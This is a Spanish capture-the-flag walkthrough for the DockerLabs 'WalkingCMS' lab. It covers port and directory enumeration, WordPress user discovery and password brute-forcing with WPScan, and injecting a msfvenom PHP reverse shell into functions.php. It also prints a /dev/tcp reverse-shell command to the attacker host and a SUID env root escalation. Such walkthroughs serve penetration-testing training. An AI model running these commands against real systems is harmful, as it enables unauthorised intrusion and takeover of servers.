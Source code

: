 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WalkingCMS".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh walkingcms.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene un unico puerto abierto:
```
Discovered open port 80/tcp on 172.18.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Pero unicamente vemos una pagina de Apache2 normal.
Por lo tanto, vamos a probar a hacer un poco de FUZZING WEB a ver si hay suerte:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
El resultado de pasar GOBUSTER es:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]                                                                      
Progress: 143724 / 830576 (17.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 144102 / 830576 (17.35%)
===============================================================
Finished
===============================================================
```
Vemos que hay un Wordpress instalado, asi que vamos a ver si hay algun panel de login. No obstante, yo prefiero volver a usar GOBUSTER sobre el directorio "/wordpress":
```
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Obteniendo lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]                                                                        
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]                                                           
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]                                                          
/wp-login.php         (Status: 200) [Size: 6580]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]                                                             
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]                                            
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Tal y como se puede ver (aunque nos lo imaginaramos antes de usar GOBUSTER esta segunda vez), hay un "wp-login.php", por lo que iremos al navegador y entraremos en la direccion: "172.17.0.2/wordpress/wp-login.php". Aqui veremos un bonito panel de Login (logicamente) de Wordpress.
Es momento ahora de usar una herramienta especifica para intentar encontrar primero usuarios dentro de entornos CMS como este, que se llama WPSCAN. En la terminal podremos:
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
Y vemos que nos encuentra un usuario llamado "mario":
```
[i] User(s) Identified:

[+] mario  <==== Usuario detectado "mario"
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Perfecto. Ya tenemos el usuario, pero... ¿y la contraseña? Bien, para encontrarla, aunque hay otras herramientas, usaremos de nuevo WPSCAN ya que esta mas indicada para CMS's:
```
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
Y nos encuentra la contraseña "love", como se puede ver a continuacion:
```
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
**NOTA: Antes de continuar, hay que decir que al usar WPSCAN, se pone la ruta donde se encuentra el panel de Login PERO sin el "wp-login.php" (OJO CON ESTO !! ES MUY IMPORTANTE)**

Una vez encontrada la contraseña y aclarado lo anterior, pasamos a introducir las credenciales en el panel de login, lo que nos da acceso al panel de control de Wordpress del usuario "mario".
Bien, ahora nos interesaria inyectar codigo malicioso en ".php" pero no se observa ningun apartado donde poder subir algun archivo, por lo que otra alternativa es intentar inyectar el codigo malicioso directamente.
Lo primero que haremos sera abrir una terminal y  crear directamente el codigo malicioso con "msfvenom". Vamos a intentar obtener una reverse, por lo que usaremos:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverseWalkingCMS.php
```
ya con el codigo malicioso creado, lo que haremos sera copiar al portapapeles TODO el contenido del archivo "reverseWalkingCMS.php".
Ahora nos dirigiremos de nuevo al navegador, y concretamente, al panel de control del usuario "mario", donde estabamos antes.
En este panel de control seleccionaremos en el menu de la izquierda la opcion "Apariencia", y dentro de ella, elegiremos donde pone "Theme Code Editor".
Perfecto, ahora es momento de inyectar nuestro codigo. Para ello, en la parte de la derecha, veremos un archivo que se llama "functions.php", por ejemplo.
Lo que haremos es simplemente abrir ese archivo y borrar todo su contenido, sustituyendolo por nuestro codigo malicioso.
Antes de continuar y grabar el archivo, abriremos DOS ventanas de la terminal:

   1) Una la pondremos a la escucha por el puerto 443 (el del codigo malicioso).
   2) La segunda, la pondremos a la escucha por el puerto 444, por ejemplo.

¿Y por que hacemos esto? Lo explico:
Cuando se hace un "payload" o codigo malicioso con "msfvenom" en PHP, normalmente al de unos segundos/minutos nos expulsa de la maquina, por lo que es conveniente siempre estabilizar esa conexion que obtenemos con el "payload".
La forma mas sencilla de estabilizarla es abrir una segunda terminal (como acabamos de hacer) e ir a la pagina "revshells.com".
En esta pagina, meteremos nuestra IP y el puerto que hemos elegido en la segunda terminal, es decir, el puerto al que queramos "redirigir" la conexion obtenida con el "payload".
Una vez hecho, en la parte de abajo, por defecto, nos proporcionara una reverse. En este caso en concreto:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Esta reverse, sera la que meteremos luego en la primera terminal para estabilizar la conexion.
Bien, aclarado todo esto, volvemos al navegador y a nuestro panel de control de Wordpress.
Si recordadmos habiamos sustituido ya el codigo original de "functions.php" por nuestro "payload". Ahora ya solo tenemos que pinchar sobre el boton azul que pone "Update File" y esperar a que nos confirme Wordpress que se ha guardado correctamente.
En mi caso, simplemente con hacer esto ya me ha cogido directamente la conexion por el puerto 443, pero si vemos que no lo hace, iremos al navegador, pondremos la direccion "172.17.0.1/wordpress/" (por ejemplo) y ya deberia hacerlo.
Bien, ¿y ahora que? Pues como hemos dicho, hay que estabilizar la conexion antes de que nos "eche", por lo que introduciremos en ese primer terminal (el del puerto 443) el siguiente comando:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Lo que nos mandara la "reverse" a nuestra segunda terminal (la del puerto 444) y asi tendremos la conexion estabilizada. Ahora ya podriamos cerrar la primera terminal ya que no la necesitamos mas.
Bien, volviendo a la segunda terminal y escribiendo "whoami" vemos lo siguiente:
```
$ whoami
www-data
$ 
```
Nos quedarian ya solo dos cositas por hacer: el tratamiento de la TTY y la escalada de privilegios.
Empezaremos por el tratamiento de la TTY. Para ello haremos lo siguiente:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Vale, finalizado el tratamiento de la TTY, pasaremos a la escalada de privilegios probando primero con el comando "sudo -l":
```
bash: sudo: command not found
```
Vemos que no se puede continuar por ahi, asi que usaremos otro metodo. Esta vez utilizaremos el comando: "find / -perm -4000 2>/dev/null"
```
find / -perm -4000 2>/dev/null

/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Una vez obtenida la lista de binarios con permisos "SUID", iremos a la pagina de "gtfobins" y buscaremos cada uno de ellos para ver si podemos utilizarlos.
En este caso, el que funcionaria seria "/usr/bin/env", por lo que en "gtfobins" veremos que "env">SUID, nos presenta el siguiente codigo para hacer una reverse:
```
./env /bin/sh -p
```
No obstante, en nuestro caso pondremos la ruta COMPLETA:
```
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Finalmente vemos que hemos tenido acceso "root" en la maquina.
Como opcional, podriamos escribir el comando "bash -p" para obtener un prompt algo mas "normal", tal y como se ve abajo.
```
# bash -p
bash-5.2# whoami
root
bash-5.2#
```
